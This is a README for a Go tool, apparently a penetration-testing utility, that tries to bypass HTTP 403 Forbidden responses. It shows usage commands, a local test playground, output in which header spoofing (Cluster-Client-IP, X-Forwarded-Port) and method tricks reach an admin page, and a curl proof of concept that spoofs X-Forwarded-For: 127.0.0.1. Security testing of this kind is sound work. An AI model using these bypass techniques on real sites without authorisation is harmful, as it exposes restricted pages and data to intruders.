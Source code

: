 # Bypass 403 Go

## Description

Bypass 403 Go is a tool designed to bypass 403 Forbidden responses for specific endpoints. It allows users to make HTTP requests to specified URLs and includes options for adding custom headers to the requests.

### Installation

```bash
go install github.com/elvisgraho/bypass-403-go@latest
```

### Flags

* -u: Target URL (mandatory), e.g., ```-u https://example.com/admin```
* -h: User header (optional), e.g., ```-h 'Cookie: lol'```
* -hfile: File containing user headers (optional), with one header per line
* -fs: Suppresses output with the desired size, ```-fs 42```
* -t: Timeout before making a request, ```-t 50ms```

### Examples

```sh
bypass-403-go -u https://example.com/secret -h 'Cookie: lol'
bypass-403-go -u https://example.com/secret -hfile headers.txt
bypass-403-go -u https://example.com/secret -hfile headers.txt -fs 42
```

### Testing with Playground (local)

```sh
docker build -t 403-playground ./playground
docker run -p 8080:8080 403-playground
```

Once the playground is running, you can test the tool using commands similar to the following:

```sh
go run main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
```

Playground output

```console
$ go run .\main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
2024/03/15 16:03:38.692321 Started bypass-403-go
PUT <http://localhost:8080/admin> 200 OK. Length: 44.
GET <http://localhost:8080/admin> 200 OK. Length: 44. Cluster-Client-IP: localhost
GET <http://localhost:8080/admin> 200 OK. Length: 44. X-Forwarded-Port: 8080
2024/03/15 16:03:41.889985 Finished bypass-403-go
```

### Create POC curl

```sh
curl -X GET \
  -H "X-Forwarded-For: 127.0.0.1:80" \
  -i https://target.com/secret
```
